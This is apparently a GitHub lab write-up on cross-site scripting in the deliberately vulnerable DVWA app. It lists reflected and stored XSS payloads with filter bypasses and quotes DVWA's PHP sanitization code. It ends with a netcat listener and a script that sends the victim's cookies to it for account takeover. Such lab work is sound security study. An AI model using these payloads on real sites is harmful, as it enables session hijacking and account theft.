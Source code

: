 # Cross-Site Scripting (XSS) — DVWA Lab

## Overview
This exercise demonstrates **Cross-Site Scripting (XSS)** exploitation in DVWA.  
The goal was to understand the three types of XSS (Reflected, Stored, DOM-based), exploit them at different security levels, and show their impact (including **session hijacking via cookies**).

---

## Types of XSS

- **Reflected XSS** — Payload is injected via URL/request and immediately reflected in the response.  
- **Stored XSS** — Payload is stored in the database (e.g., comments, posts) and executes for every visitor.  
- **DOM-based XSS** — Occurs in client-side JavaScript (no server-side processing required).

---

## Reflected XSS

### Low Security
Payload:
```html
<script>alert('XSS')</script>
```
result:
![low security Reflected XSS](/web-vulns-XSS/screenshots/low-sec-reflected.png)

### Medium and high Security
Payloads:
```html
<img src=x onerror=alert(1)>
<iframe src=javascript:alert(1)></iframe>
<div onmouseover=alert(1)>Hover me!</div>
<input type=text value="click me" onclick=alert(1)>
```
result:
![Medium security Reflected XSS](/web-vulns-XSS/screenshots/med-sec-reflected.png)
- Execution via image error, iframe source, mouse hover, and button click.

### Impossible Security
Inputs are sanitized with multiple layers:

- strip_tags — removes HTML tags.
- addslashes — escapes quotes.
- mysqli_real_escape_string — sanitizes SQL context.
- htmlspecialchars — converts `<`, `>`, `"`, `'` into HTML entities.

Result: 
![curl result](/web-vulns-XSS/screenshots/curl-impossible.png)
Exploitation blocked.

## Stored XSS

# Low Security
Payload:
```html
<script>alert('Stored-low')</script>
```
result:
![Low security Stored XSS](/web-vulns-XSS/screenshots/low-sec-stored.png)

## Medium Security
Made Several attempts and some of them having the payload as:
```html
"><iframe src=javascript:alert('XSS')>
<img src=x oNeRrOr=alert('bypass')>
" onmouseover="alert('Stored-bypass')"
```
- PHP code inspection confirmed sanitization pipeline (see the code snippet below).

```php
$message = strip_tags( addslashes( $message ) ); 
$message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : "")); 
$message = htmlspecialchars( $message );
```

## Cookie Manipulation
used `netcat` to listen to the cookies on port 8080.
```bash
nc -nlvp 8080
```
Payload:
```html
<script>new Image().src="http://127.0.0.1:8080/?c="+encodeURIComponent(document.cookie);</script>
```
- This gave me the cookie which i further used for account takeover.